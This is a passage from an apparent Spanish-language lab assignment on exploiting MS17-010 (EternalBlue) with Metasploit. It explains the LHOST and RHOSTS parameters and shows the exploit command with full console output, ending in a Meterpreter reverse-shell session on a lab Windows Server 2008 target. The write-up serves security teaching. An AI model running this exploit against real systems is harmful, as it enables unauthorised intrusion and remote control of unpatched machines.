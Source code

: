 - Verificar mediante el comando **show options**

    ![figura](/assets/images/2024-11-03-EP/Captura de pantalla 2024-11-03 185154.png)
   

- Explica brevemente cada parámetro crítico que configuraste, como LHOST y RHOSTS, y justifica por qué esos valores son importantes para el ataque.
> **Explicación:** 
> Los parámetros críticos:
> - **LHOST (Local Host):** Es la dirección IP de la máquina que está ejecutando el exploit, es decir, el atacante. Es importante porque el objetivo del ataque es establecer una conexión de regreso **(reverse shell)** desde el sistema víctima hacia el atacante. Si LHOST está mal configurado, el sistema comprometido no podrá comunicarse correctamente.
> - **RHOST (Remote Host):** Es la dirección IP del sistema objetivo que se desea explotar. Este parámetro indica a qué máquina se enviarán los paquetes de ataque. Si RHOST no está correctamente configurado, el exploit no se dirigirá al objetivo correcto, impidiendo que el ataque tenga éxito. 

    > Es importante que ambos parámetros, mantengan **conectividad** es decir ser accesibles entre sí; de lo contrario, el exploit fallará. Otro punto de importancia es la **seguridad** ya que la correcta configuración de estos valores asegura que el ataque se realice de manera controlada y en un entorno donde el atacante puede monitorear el tráfico y la respuesta del sistema objetivo.

***

### 2.4. Ejecución del Exploit
- Ejecuta el exploit para obtener una conexión Meterpreter con el servidor. Si la explotación es exitosa, documenta qué mensaje o salida te confirma que la conexión ha sido establecida.

    ```bash
    msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
    ```    
    ```bash
    msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

    [*] Started reverse TCP handler on 10.0.2.9:4444 
    [*] 10.0.2.4:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 10.0.2.4:445          - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (64-bit)
    [*] 10.0.2.4:445          - Scanned 1 of 1 hosts (100% complete)
    [+] 10.0.2.4:445 - The target is vulnerable.
    [*] 10.0.2.4:445 - Connecting to target for exploitation.
    [+] 10.0.2.4:445 - Connection established for exploitation.
    [+] 10.0.2.4:445 - Target OS selected valid for OS indicated by SMB reply
    [*] 10.0.2.4:445 - CORE raw buffer dump (51 bytes)
    [*] 10.0.2.4:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
    [*] 10.0.2.4:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
    [*] 10.0.2.4:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
    [*] 10.0.2.4:445 - 0x00000030  6b 20 31                                         k 1             
    [+] 10.0.2.4:445 - Target arch selected valid for arch indicated by DCE/RPC reply
    [*] 10.0.2.4:445 - Trying exploit with 12 Groom Allocations.
    [*] 10.0.2.4:445 - Sending all but last fragment of exploit packet
    [*] 10.0.2.4:445 - Starting non-paged pool grooming
    [+] 10.0.2.4:445 - Sending SMBv2 buffers
    [+] 10.0.2.4:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
    [*] 10.0.2.4:445 - Sending final SMBv2 buffers.
    [*] 10.0.2.4:445 - Sending last fragment of exploit packet!
    [*] 10.0.2.4:445 - Receiving response from exploit packet
    [+] 10.0.2.4:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
    [*] 10.0.2.4:445 - Sending egg to corrupted connection.
    [*] 10.0.2.4:445 - Triggering free of corrupted buffer.
    [*] Sending stage (201798 bytes) to 10.0.2.4
    [*] Meterpreter session 1 opened (10.0.2.9:4444 -> 10.0.2.4:50669) at 2024-11-03 15:50:57 -0800
    [+] 10.0.2.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.0.2.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.0.2.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    ```